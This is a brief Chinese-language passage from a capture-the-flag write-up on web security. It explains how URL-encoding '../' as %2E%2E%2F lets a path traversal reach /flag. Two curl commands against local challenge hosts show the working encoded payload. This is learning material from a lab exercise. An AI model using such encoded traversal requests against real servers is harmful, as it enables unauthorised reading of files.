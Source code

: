 这怎么办？

---

然后我想到，也许，需要进行转化成url符号？

于是转换后：

![image-20241031190436328](./02%20Web%20Security.assets/image-20241031190436328.png)

成功。

按照这个思路做题，成功。

```sh
$ curl -v http://127.0.0.1:10086/%2E%2E%2F%2E%2E%2Fflag

$ curl -v http://challenge.localhost:80/%2F..%2F..%2Fflag
```



## 总结

我了解到了URL编码

~~虽然我依旧没有搞懂，为什么../会在请求的过程中无效。~~

我后面理解了，考察的点就是路径遍历。
